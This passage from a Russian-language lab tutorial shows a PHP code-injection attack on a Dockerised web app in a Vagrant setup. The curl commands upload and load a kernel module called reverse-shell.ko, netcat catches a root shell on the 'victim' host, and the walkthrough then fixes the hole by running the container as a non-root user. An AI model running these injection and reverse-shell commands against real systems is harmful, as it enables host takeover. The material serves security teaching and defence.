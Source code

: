 Произведем urlencoding этой строки и выполним получившийся запрос:

```
vagrant@hacker:~$ curl -v  -X POST 192.168.56.4/?code=move_uploaded_file%28%24_FILES%5B%27shell%27%5D%5B%27tmp_name%27%5D%2C%20%27reverse-shell.ko%27%29%3B \
-F 'shell=@reverse-shell.ko'
```

Откроем ещё один терминал на хосте `hacker` и запустим на нем netcat в режиме ожидания соединения:

```
$ vagrant ssh hacker
vagrant@hacker:~$ nc -vnlp 4444
  listening on [any] 4444 ...
```

Теперь загрузим модуль:

```
vagrant@hacker:~$ curl -G 192.168.56.4 --data-urlencode "code=system('insmod reverse-shell.ko');"
  <h1> Hello world!</h1>
  <br>
```

При этом во втором окне, там где мы запустили netcat, мы получим привилегированный shell на хостовой системе `victim`:

```
vagrant@hacker:~$ nc -vnlp 4444
  listening on [any] 4444 ...
  connect to [192.168.56.5] from (UNKNOWN) [192.168.56.4] 39060
  bash: cannot set terminal process group (-1): Inappropriate ioctl for device
  bash: no job control in this shell
root@victim:/# id
  id
  uid=0(root) gid=0(root) groups=0(root)
root@victim:/# cat /home/vagrant/FLAG
  cat /home/vagrant/FLAG
  WAS HACKED 
```

## Solution I

Самым простым способом решения проблемы является запуск из под не привилегированного пользователя. Для реализации этого
подхода на хосте `victim` откройте Dockerfile и добавим в него строку `USER 1000`:

```
$ vagrant ssh victim
vagrant@victim:~$ cd /vagrant/victim/
vagrant@victim:/vagrant/victim$ docker-compose stop
  Stopping victim_webapp_1 ... done
vagrant@victim:/vagrant/victim$ nano Dockerfile
  ...
  USER 1000
  ...
<Ctrl+O><Ctrl+X>
vagrant@victim:/vagrant/victim$ docker-compose up --build -d
  Building webapp
  Step 1/5 : FROM php:7.4-cli
   ---> 639632eff06b
  Step 2/5 : WORKDIR /app
   ---> Using cache
   ---> 6cd15b0ede2b
  Step 3/5 : USER 1000
   ---> Running in 84916b1065ad
  Removing intermediate container 84916b1065ad
   ---> 07fe5524f58b
  Step 4/5 : COPY index.php index.php
```